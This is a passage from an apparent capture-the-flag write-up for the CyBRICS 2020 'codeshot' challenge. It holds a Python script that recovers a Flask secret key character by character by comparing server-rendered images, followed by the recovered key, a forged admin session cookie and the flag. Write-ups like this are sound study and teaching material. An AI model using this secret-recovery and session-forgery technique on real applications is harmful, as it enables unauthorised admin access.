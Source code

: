 ```python
chall = Image.open("chall.png")
chall_pix = chall.load()

while len(sol) < 10:
    for c in alphabet:

        tmp_secret_key = sol + c + secret_key[len(sol)+1:]

        print("[+] tmp_secret_key :",tmp_secret_key)

        response = requests.post("http://codeshot-cybrics2020.ctf.su:80/profile", headers=headers_post, cookies=cookies, data=data % tmp_secret_key)
        img_id = response.text.split('/uploads/649/')[-1].split('">')[0].strip()

        url = "http://codeshot-cybrics2020.ctf.su:80/uploads/649/" + img_id
        img = requests.get(url, headers=headers_get, cookies=cookies).content

        with open('tmp.png','wb') as f:
            f.write(img)

        img = Image.open('tmp.png')
        img_pix = img.load()

        for i in range(180,200,2):
            col = 10 + 10 * (28 + len(sol)) 
            if not chall_pix[col,i] == img_pix[col,i]:
                break
        else:
            sol += c
            break

print(sol)
```

And the secret key is : `jds89fysd79ftys7dfstf`

### The last step

Now, we just have to forge a valid admin JWT and play it to gather the flag image.

```
$ python3 flask_session_cookie_manager3.py encode -s 'jds89fysd79ftys7dfstf' -t "{'_fresh': True, '_id': 'cd948895f9e6b8712fc5b062fb674414f238fee4613c647969df73a1b721d48a0a9c8acc231430a8df7878cb732eeb0e1dd3518e63d346dd861725046343096d', '_user_id': '1'}"
.eJwlzjkOwjAQQNG7uKbwLJ4ll4lsz1jQJqRC3J1I1P8X71P2deT5LNv7uPJR9leUrcxwNvO2PGWYAq7ZRhVcQ5QZeCHZymQBmsLq4rGUOgxFCLZeu0_rcyIBU-12V1ObQwkzR02IoAaWQkEsESag2CoL3btLlBtynXn8NVC-P4t6Ljw.Xx0Fgw.qX_e32dIbiGtPG5tHqIupW13eko
```

And the flag : `cybrics{w0w_whythisfilterisnotalreadyinphotoshop}`
